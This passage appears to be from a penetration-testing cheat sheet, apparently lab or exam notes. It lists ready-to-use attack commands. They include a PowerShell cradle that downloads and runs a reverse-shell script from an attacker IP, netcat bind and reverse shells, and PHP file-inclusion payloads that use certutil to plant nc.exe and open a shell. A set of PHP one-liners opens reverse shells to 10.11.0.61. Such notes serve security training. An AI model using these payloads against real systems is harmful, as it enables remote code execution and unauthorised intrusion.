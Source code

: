 ```
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.152:40000/Invoke-PowerShellTcp.ps1')"
```
##### Kali Host
```
sudo nc -nlvp 4242
```

#### nc on windows
```
Windows                 nc.exe -nlvp 4444
Kali                    nc -nv 192.168.152.10 4444 -e /bin/bash
Windows                 You will not see a Linux prompt
```

### PHP Wrappers

#### certutil to download netcat
*Note: we are hosting netcat on the source system (192.168.119.152) at nc.exe.txt*

    http://192.168.152.10/menu.php?file=data:text/plain,<?php echo shell_exec("certutil -urlcache -split -f http://192.168.119.152/nc.exe.txt c:\windows\system32\nc.exe") ?>

#### Run bind shell with netcat

    http://192.168.152.10/menu.php?file=data:text/plain,<?php echo shell_exec("nc.exe -nlvp 4444 -e cmd.exe") ?>

	# connect to the bind shell from attacker machine
	# nc -nv 192.168.152.10 4444

### PHP - Other Examples
```
<?php shell_exec("bash -i >& /dev/tcp/10.11.0.61/5555 0>&1") ?>

<?php shell_exec("nc -e /bin/sh 10.11.0.61 5555") ?>
<?php shell_exec("nc -e /bin/sh 10.11.0.61 5555") ?>

<?php $sock=fsockopen("10.11.0.61",5555);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

# Assembly
Good info on windows assembly and exploits:
https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit

# Exploits
https://github.com/Screetsec/TheFatRat
